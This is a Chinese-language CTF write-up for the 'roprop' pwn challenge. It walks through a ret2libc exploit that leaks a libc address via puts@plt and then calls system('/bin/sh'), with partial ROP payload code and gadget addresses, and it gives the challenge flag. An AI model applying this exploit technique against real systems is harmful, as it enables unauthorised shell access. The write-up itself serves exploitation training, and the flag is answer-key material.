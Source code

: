 # roprop
簡單的ret2lib問題,先看一下security:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
PIE沒開,表示我們可以找到正確的address跟plt.got table.


稍微disas 看一下發現沒有什麼可以直接用的function,再看一下plt table,發現有puts@plt, 我們可以利用puts function來leak libc address,然後算出base address,再得到system的address.

我們要進行兩次overflow,第一次利用puts function印出puts在got table的address,得到libc這次執行的address,由於每次執行base address都不一樣,所以我們要在跳回到main的起點再運行一次程式，這樣base address仍會一樣.

第一次的payload:
```
...
gadget2 = 0x00400963 # pop rdi; ret;
align_gadget = 0x00400646 # ret;
...
payload = b'A'*88 + p64(align_gadget) + p64(gadget2) + p64(got_puts) + p64(plt_puts) + p64(main)  
...
```
透過ghidra或是gdb可以得到overflow的offset是88 bytes,由於x86 64在呼叫library function時會有stack alignment的問題,所以使用一個只有ret;的gadget來使stack align,然後呼叫puts function印出puts在got tableg上記錄的address,扣掉puts function在libc中的offset就能得到base address,再加上system的offset就能得到system的address.

透過以下code得到base address跟system function address:
```
...
libc_puts = proc.recvline()
# leak base address
libc_puts = u64(libc_puts[:-1].ljust(8, b'\x00'))
libc_base = libc_puts - libc.symbols['puts'] # calculate base address
libc_system = libc_base + libc.symbols['system'] # obtain system address
libc_binsh = libc_base + libc.search('/bin/sh').next() # find  "/bin/sh" string in libc
...
```
再進行第二次的overflow,這一次只要利用之前得到的system function address呼叫system("/bin/sh"),就可以得到command line.
```
...
payload = b'A'*88 + p64(gadget2) + p64(libc_binsh) + p64(libc_system) 
...
```
由於不會再呼叫其他library function,所以有沒有stack align都沒有關係,但如果之後還要再呼叫function就必須做align,不然會出錯.

執行exploit.py得到flag:
```
darkCTF{y0u_r0p_r0p_4nd_w0n}
```
